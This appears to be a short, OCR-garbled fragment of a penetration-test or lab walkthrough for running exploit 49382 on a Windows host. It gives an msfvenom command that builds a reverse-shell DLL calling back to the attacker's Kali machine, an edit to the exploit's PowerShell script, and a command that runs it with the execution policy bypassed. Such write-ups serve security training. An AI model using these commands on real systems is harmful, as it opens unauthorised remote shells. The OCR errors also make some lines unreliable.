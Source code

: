 exploit 49382


Looking at the script we see the need to generate a reverse shell .dll payload. Then execute the .ps1 targeting the .dll.


```bash - kali
sudo msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=$KALI LPORT=445
```


Edit the .ps1 to target the location of the .dll.

```
#Example payload generated as follows # msfvenom -p windows/x64/shell_reverse_tcp —f dll -o shell.dll LHOST=eth0 LPORT=4444 
$PayloadFile = "C:\Users\tony\AppData\Local\Temp\shell.dl1"
```


Upload both, the dll and ps1 file to target.

```batch - windows
powershell.exe -ep bypass .\49382.ps1
```




